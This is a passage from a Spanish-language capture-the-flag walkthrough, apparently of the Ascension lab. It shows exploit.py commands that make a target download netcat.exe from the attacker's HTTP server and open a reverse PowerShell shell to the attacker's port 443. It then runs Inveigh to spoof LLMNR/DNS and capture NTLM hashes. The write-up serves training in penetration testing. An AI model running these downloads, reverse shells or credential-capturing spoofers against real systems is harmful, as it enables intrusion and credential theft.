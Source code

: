 Posteriormente, configuramos un servidor HTTP local utilizando el comando sudo python3 -m http.server 80 para servir el archivo netcat.exe.

Una vez que el archivo netcat.exe fue descargado con éxito en el sistema comprometido, procedimos a llamar a netcat.exe y establecer una conexión utilizando PowerShell. Esta conexión fue recibida en la máquina web01, utilizando las credenciales del usuario svc_dev. Como resultado, pudimos acceder y leer la primera flag.

```bash
❯ python3 exploit.py 'curl 10.10.14.6/netcat.exe -o C:\ProgramData\netcat.exe'  
```

```bash
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...  
10.13.38.20 - - "GET /netcat.exe HTTP/1.1" 200 -
```

```bash
❯ python3 exploit.py 'cmd /c C:\ProgramData\netcat.exe -e powershell 10.10.14.10 443'  
```

```bash
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.38.20
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Windows\System32> whoami
web01\svc_dev
PS C:\Windows\System32> type C:\Users\svc_dev\Desktop\flag.txt  
ASCENSION{********************}
PS C:\Windows\System32>
```
Empleamos Inveigh para monitorear el tráfico de todas las solicitudes realizadas en la red. En el resultado obtenido, se identificaron algunas solicitudes dirigidas hacia fin01.daedalus.local.

```powershell
PS C:\ProgramData> curl 10.10.14.10/Inveigh.ps1 -o Inveigh.ps1
PS C:\ProgramData> Import-Module .\Inveigh.ps1
PS C:\ProgramData> Invoke-Inveigh -FileOutput Y
[*] Inveigh 1.506 started at 2023-09-02T22:06:41
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.13.38.20
[+] Spoofer IP Address = 10.13.38.20
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Capture = Disabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Disabled
[+] File Output = Enabled
[+] Output Directory = C:\ProgramData
Warning: [!] Run Stop-Inveigh to stop
PS C:\ProgramData> type Inveigh-Log.txt
[+] [2023-09-02T22:06:49] mDNS(QM) request fin01.local received from 10.13.38.20 [spoofer disabled]
```